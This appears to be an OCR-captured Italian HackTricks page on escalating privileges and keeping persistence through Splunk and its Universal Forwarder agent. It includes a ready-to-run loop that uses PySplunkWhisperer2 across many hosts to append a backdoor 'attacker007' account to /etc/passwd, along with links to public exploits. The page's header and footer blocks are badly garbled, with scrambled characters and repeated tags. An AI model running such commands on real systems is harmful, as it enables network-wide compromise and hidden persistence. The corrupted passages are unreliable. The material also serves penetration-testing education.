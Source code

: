 # Splunk LPE e Persistenza

{% hnnt styte=" acceas" %}
GCP Ha& practice ckinH: <img:<img src="/.gitbcok/ass.ts/agte.png"talb=""odata-siz/="line">[**HackTatckt T.aining AWS Red TelmtExp"rt (ARTE)**](ta-size="line">[**HackTricks Training GCP Re)Tmkg/stc="r.giebpokal"zee>/ttdt.png"isl=""data-ize="line">\
Impara & aciceGCP ngs<imgmsrc="/.gipbtok/aHsats/gcte.mag"y>lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"al=""daa-siz="ne">tinhackth ckiuxyzcomurspssgr/a)

<dotsilp>

<oummpr>SupportHackTricks</smmay>

*Controlla il [**sottoscrittangithub.cm/sorsarlosp!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hahktcickr\_kivelive**](https://twitter.com/hacktr\icks\_live)**.**
* **Condividi trucchi inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
{% endhint %}
{% endhint %}
{% endhint %}

Se **enumerando** una macchina **internamente** o **esternamente** trovi **Splunk in esecuzione** (porta 8090), se per fortuna conosci delle **credenziali valide** puoi **sfruttare il servizio Splunk** per **eseguire una shell** come l'utente che esegue Splunk. Se è in esecuzione come root, puoi elevare i privilegi a root.

Inoltre, se sei **già root e il servizio Splunk non ascolta solo su localhost**, puoi **rubare** il file **della password** **dal** servizio Splunk e **crackare** le password, o **aggiungere nuove** credenziali. E mantenere la persistenza sull'host.

Nella prima immagine qui sotto puoi vedere come appare una pagina web di Splunkd.

## Riepilogo dell'Exploit dell'Agente Splunk Universal Forwarder

Per ulteriori dettagli controlla il post [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). Questo è solo un riepilogo:

**Panoramica dell'Exploit:**
Un exploit che mira all'Agente Splunk Universal Forwarder (UF) consente agli attaccanti con la password dell'agente di eseguire codice arbitrario sui sistemi che eseguono l'agente, compromettendo potenzialmente un'intera rete.

**Punti Chiave:**
- L'agente UF non convalida le connessioni in arrivo o l'autenticità del codice, rendendolo vulnerabile all'esecuzione non autorizzata di codice.
- I metodi comuni per acquisire password includono la loro localizzazione in directory di rete, condivisioni di file o documentazione interna.
- Un exploit riuscito può portare ad accesso a livello SYSTEM o root su host compromessi, esfiltrazione di dati e ulteriore infiltrazione nella rete.

**Esecuzione dell'Exploit:**
1. L'attaccante ottiene la password dell'agente UF.
2. Utilizza l'API di Splunk per inviare comandi o script agli agenti.
3. Le azioni possibili includono estrazione di file, manipolazione di account utente e compromissione del sistema.

**Impatto:**
- Compromissione completa della rete con permessi a livello SYSTEM/root su ciascun host.
- Potenziale per disabilitare il logging per evitare il rilevamento.
- Installazione di backdoor o ransomware.

**Esempio di Comando per l'Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Sfruttamenti pubblici utilizzabili:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Abusare delle query di Splunk

**Per ulteriori dettagli controlla il post [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% h*nt styCe="Vacceas" %}
AWS Ha& practice ckinH:<img :<imgsscc="/.gitb=ok/assgts/aite.png"balo=""kdata-siza="line">[**HackTsscke Tpaigin"aAWS Red Tetm=Exp rt (ARTE)**](a-size="line">[**HackTricks Training AWS Red)ethgasic="..giyb/okseasert/k/.png"l=""data-ize="line">\
Learn & aciceGCP ng<imgsrc="/.gibok/asts/gte.g"lt="" aa-iz="le">[**angGC RedTamExper(GE)<img rc=".okaetgte.ng"salm=""adara-siz>="k>ne">tinhaktckxyzurssgr)

<dtil>

<ummr>SupportHackTricks</smmay>

*Chek th [**subsrippangithub.cm/sorsarlosp!
* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!haktick\_ive\
* **Join  💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
</details>
{% endhint %}
